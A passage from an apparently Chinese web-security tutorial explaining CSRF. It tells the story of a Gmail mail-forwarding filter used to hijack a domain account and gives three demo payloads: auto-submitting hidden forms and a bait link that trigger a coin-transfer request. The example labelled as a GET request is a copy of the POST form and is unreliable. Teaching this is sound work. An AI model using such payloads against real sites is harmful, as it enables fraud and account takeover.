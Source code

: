 - 首先 David 发起登录 Gmail 邮箱请求，然后 Gmail 服务器返回一些登录状态给 David 的浏览器，这些信息包括了 Cookie、Session 等，这样在 David 的浏览器中，Gmail 邮箱就处于登录状态了。
- 接着黑客通过各种手段引诱 David 去打开他的链接，比如 hacker.com，然后在 hacker.com 页面中，黑客编写好了一个邮件过滤器，并通过 Gmail 提供的 HTTP 设置接口设置好了新的邮件过滤功能，该过滤器会将 David 所有的邮件都转发到黑客的邮箱中。
- 最后的事情就很简单了，因为有了 David 的邮件内容，所以黑客就可以去域名服务商那边重置 David 域名账户的密码，重置好密码之后，就可以将其转出到黑客的账户了。

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

- 自动发起 Get 请求

  ```html
  
  <!DOCTYPE html>
  <html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script> document.getElementById('hacker-form').submit(); </script>
  </body>
  </html>
  ```

- 自动发起POST请求

  ```html
  
  <!DOCTYPE html>
  <html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
      <input type="hidden" name="user" value="hacker" />
      <input type="hidden" name="number" value="100" />
    </form>
    <script> document.getElementById('hacker-form').submit(); </script>
  </body>
  </html>
  ```

- 引诱用户点击链接

  ```html
  
  <div>
    <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
    <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
      点击下载美女照片
    </a>
  </div>
  ```

和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击。
